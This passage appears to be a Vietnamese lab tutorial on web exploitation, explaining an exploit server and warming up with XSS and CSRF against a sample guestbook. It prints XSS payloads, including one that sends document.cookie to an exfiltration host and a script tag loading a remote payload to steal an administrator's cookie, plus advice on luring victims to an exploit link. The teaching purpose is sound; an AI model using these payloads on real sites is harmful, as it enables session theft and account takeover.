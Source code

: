   ```html
  <script>alert('XSS Detected!')</script>
  ```

- **Truy cập Payload**:
  Sau khi lưu payload, bạn có thể xem payload này bằng cách truy cập vào endpoint `/exploit`. Truy cập này sẽ kích hoạt hộp thông báo pop-up.

- **Triển khai Payload cho Nạn nhân**:
  Để nạn nhân kích hoạt payload, chúng ta có thể gửi cho họ một liên kết dẫn đến `http://exploitserver.htb/exploit`. Điều này rất hữu ích cho các cuộc tấn công CSRF, nơi nạn nhân cần tự nguyện truy cập payload để kích hoạt mã khai thác.

#### **5. Phát triển Payload XSS**

Máy chủ phát triển khai thác cũng có thể được sử dụng để tạo các payload XSS. Tuy nhiên, không giống như các cuộc tấn công CSRF, chúng ta không cần phải gửi payload cho nạn nhân. Với XSS, payload sẽ được tự động thực thi bởi mã JavaScript đã được tiêm vào ứng dụng web dễ bị tấn công.

- **Ví dụ về Payload XSS để Đánh cắp Cookie**:

  ```html
  <script>
    window.location = "http://exfiltrate.htb/cookiestealer?c=" + document.cookie;
  </script>
  ```

Payload trên sẽ tự động gửi cookie của người dùng đến máy chủ exfiltration. Khi quản trị viên truy cập vào trang chứa payload này, cookie của họ sẽ bị đánh cắp và ghi lại tại máy chủ log.

---
# Khởi động Bài Thực Hành (Lab Warmup)

Sau khi tìm hiểu về các thành phần trong môi trường lab, chúng ta sẽ khám phá cách khai thác một số lỗ hổng cơ bản thông qua các ví dụ về **XSS** và **CSRF**.

#### **1. Khởi động với XSS**

Ứng dụng web mẫu của chúng ta là một **guestbook** đơn giản cho phép người dùng đăng bài. Tất cả người dùng đều có thể xem các bài đăng này, và quản trị viên thường xuyên kiểm tra để loại bỏ các bài spam.

**Xác nhận lỗ hổng XSS**: Chúng ta có thể kiểm tra lỗ hổng XSS bằng cách đăng nội dung sau vào guestbook:

```html
<script>alert(1)</script>
```

Khi quản trị viên mở trang guestbook, một hộp thoại sẽ hiện ra, chứng tỏ rằng có một lỗ hổng XSS tồn tại.

**Phát triển khai thác đánh cắp cookie**: Chúng ta sẽ sử dụng máy chủ phát triển khai thác (`exploitserver.htb`) để tạo payload nhằm đánh cắp cookie của quản trị viên.

```html
<script src="http://exploitserver.htb/exploit"></script>
```

